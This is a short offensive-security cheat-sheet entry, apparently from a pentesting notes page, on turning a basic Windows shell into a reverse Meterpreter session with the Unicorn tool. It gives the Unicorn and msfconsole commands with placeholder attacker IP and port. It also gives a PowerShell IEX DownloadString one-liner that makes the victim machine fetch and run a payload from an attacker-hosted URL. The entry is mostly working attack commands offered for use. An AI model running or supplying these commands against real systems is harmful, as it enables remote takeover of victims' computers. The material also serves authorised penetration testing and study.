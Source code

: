 # Normal shell to meterpreter (Windows)

> Unicorn can create powershell scripts to load a reverse meterpreter from a normal shell:

```bash
#Use x64 if it's 64 bit architecture.
python unicorn.py windows/meterpreter/reverse_tcp $KALIIP $KALIPORT
#This will create 2 files (.rc and .txt)

#Load .rc at msfconsole:
msfconsole -r unicorn.rc

#Create a new file in Kali with the payload (which is inside the .txt file under double quotes, ignore the powershell ...) and serve is with python http server. Then, execute it in the victim machine through IEX:

powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('$URLOFFILE')

#or without .exe

powershell "IEX (New-Object System.Net.WebClient).DownloadString('$URLOFFILE')"

#Note that this isn't inmediate, it can be delayed by 20 seconds.
```
